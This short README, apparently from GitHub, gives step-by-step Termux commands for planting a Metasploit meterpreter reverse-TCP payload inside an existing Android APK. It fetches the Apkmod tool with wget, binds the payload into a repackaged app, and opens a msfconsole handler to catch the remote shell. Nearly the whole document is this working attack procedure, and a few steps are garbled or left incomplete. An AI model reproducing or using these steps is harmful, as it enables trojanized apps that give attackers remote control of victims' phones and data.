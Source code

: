 # Metasploit-binding-payload-in-existing-apk
Metasploit binding payload in existing apk  using apkmod method

$ apt update &&apt upgrade --y

$ pkg install wget

$ pkg install unstable-repo

$ wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh

$ apk mod -u

$ A

$ apkmod -b /sdcard/hack/org.apk -o /sdcard/hack/binded_org.apk LHOST=127.0.0.1 LPORT=4444

$ msfconsole

$ use exploit/multi/handler

$ set payload android/meterpreter/reverse_tcp

$ set lhost

$ set lport

$ exploit


                                               ---Jack Daniel


